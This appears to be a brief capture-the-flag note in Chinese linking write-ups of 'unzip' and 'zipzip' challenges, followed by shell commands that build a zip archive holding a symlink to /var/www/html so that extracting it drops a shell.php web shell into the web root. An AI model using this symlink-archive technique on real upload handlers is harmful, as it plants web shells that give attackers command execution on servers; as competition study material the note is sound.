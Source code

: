 [ciscn | unzip](https://mp.weixin.qq.com/s/MqFMedoQE5iG-MysrTCphg)
[ciscn | unzip](https://pysnow.cn/archives/713/)
[zipzip 2021 深育杯线上初赛官方 WriteUp](https://xz.aliyun.com/t/10533)

方式一

```sh
ln -s /var/www/html webroot
zip -y exp.zip webroot
zip -r exp.zip webroot
# adding: webroot/(stored 0%)
# adding: webroot/shell.php (deflated 33%)
```
